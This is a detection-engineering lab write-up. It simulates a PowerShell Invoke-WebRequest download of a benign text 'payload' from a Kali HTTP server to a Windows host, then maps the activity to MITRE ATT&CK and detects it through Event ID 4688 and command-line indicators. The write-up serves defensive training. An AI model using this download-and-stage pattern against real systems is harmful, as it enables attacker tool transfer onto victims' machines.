







# Case 6 – PowerShell Download Payload

## Objective

This lab simulates a PowerShell-based payload download from a remote Kali Linux server to a Windows target machine.

The goal is to detect suspicious PowerShell download activity using Windows Security Event ID 4688.

---

## MITRE ATT&CK Mapping

| Technique | ID |
|----------|----|
| PowerShell | T1059.001 |
| Ingress Tool Transfer | T1105 |

---

## Lab Environment

**Attacker Machine:** Kali Linux  
**Target Machine:** Windows 10  
**Protocol:** HTTP  
**Port:** 8000

---

## Attack Simulation

### Step 1 – Create payload file on Kali

A test file was created on the Kali Desktop:

```bash
nano payload.txt
```

Example content:

```text
This is a simulated payload
```

---

### Step 2 – Start HTTP server on Kali

```bash
python3 -m http.server 8000
```

This makes the payload available over HTTP.

---

### Step 3 – Execute PowerShell download command on Windows

```powershell
Invoke-WebRequest http://192.168.100.20:8000/payload.txt -OutFile C:\Temp\payload.txt
```

This command downloads the remote file from the Kali server to the Windows target.

---

## Detection Opportunity

This activity is suspicious because PowerShell is being used to retrieve content from a remote HTTP server.

Security analysts should monitor for:

- `powershell.exe`
- `Invoke-WebRequest`
- `http://`
- `-OutFile`

---

## Event Log Evidence

Relevant Windows Security Event:

- **Event ID 4688** – Process Creation

Important command-line indicators:

- `Invoke-WebRequest`
- `http://192.168.100.20:8000/payload.txt`
- `C:\Temp\payload.txt`

---

## Sigma Detection Rule

See the full Sigma rule in:

```text
sigma-rule.yml
```

---

## Screenshots

### 1. Creating payload file on Kali



This screenshot shows the creation of the payload file on the Kali attacker machine.

---

### 2. Writing payload content



This screenshot shows the content written inside the payload file.

---

### 3. Starting Python HTTP server



The Python HTTP server is started on Kali to host the payload file.

---

### 4. Executing PowerShell download command



The Windows target runs `Invoke-WebRequest` to download the payload from the Kali server.

---

### 5. Kali server receiving HTTP request



The Kali HTTP server logs show the inbound GET request from the Windows target.

---

### 6. Downloaded payload on Windows



The payload file appears successfully in `C:\Temp` on the Windows system.

---

### 7. Event ID 4688 showing PowerShell download activity



Windows Security Event ID 4688 captures the PowerShell command line used in the download activity.
